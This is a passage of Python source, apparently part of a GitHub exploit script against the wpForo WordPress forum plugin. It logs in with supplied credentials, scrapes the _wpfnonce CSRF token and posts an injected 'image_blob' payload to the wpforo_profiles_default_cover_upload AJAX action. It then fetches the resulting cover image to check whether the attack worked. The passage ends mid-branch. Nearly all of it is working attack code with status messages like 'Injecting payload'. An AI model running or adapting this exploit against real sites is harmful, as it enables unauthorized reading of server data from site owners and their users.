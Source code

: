 ```python
        pprint("[yellow][*] There is a comma(,) in the filepath. Exploit might not work. [/yellow]")

    pprint("[cyan][*] Logging in [/cyan]")
    base_url = urljoin(f"{host}:{port}",sitelocation)

    login_url = urljoin(base_url, 'sign-in')

    # Start a session so we can have persistent cookies
    session = requests.session()
    session.verify = False
    session.headers.update({'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0'})

    # This is the form data that the page sends when logging in
    login_data = {
        'log': user,
        'pwd': password, # hide password input
        'wpforologin': 'Sign+In',
        'wpfaction': 'login',
    }

    # Get the base page to retrieve the CSRF token
    r = session.get(login_url)

    # Use BeautifulSoup to find the CSRF token in the HTML
    soup = BeautifulSoup(r.text, 'html.parser')

    _wpfnonce = soup.find('input', attrs={'name': '_wpfnonce'})['value']
    login_data['_wpfnonce'] = _wpfnonce

    session.headers.update({'Referer': login_url})
    # Send a POST request with the form data
    r = session.post(login_url, data=login_data, allow_redirects=False)

    # Check if login was successful
    if r.status_code == 302 and 'wordpress_logged_in' in r.headers['Set-Cookie']:
        pprint("[green][+] Logged in [/green]")
    else:
        pprint("[red][-] Couldn't log in [/red]")
        exit(1)

    pprint("[cyan][+] Injecting payload[/cyan]")
    exploit = {
        'referer': f"{host}:{port}",
        'image_blob': file,
        'action': 'wpforo_profiles_default_cover_upload',
        '_wpfnonce': _wpfnonce,
    }

    r = session.post(urljoin(base_url,"/wp-admin/admin-ajax.php"), data=exploit, allow_redirects=False)

    if r.status_code == 200 and 'true' in r.text:
        pprint("[green][+] Injected payload successfully[/green]")
    else:
        pprint("[red][-] Exploit Failed [/red]")
        exit(1)

    r = requests.get(urljoin(base_url,"/wp-content/uploads/wpforo/covers/profiles_custom_default_cover.jpg"), verify=False)

    if r.status_code == 200:
```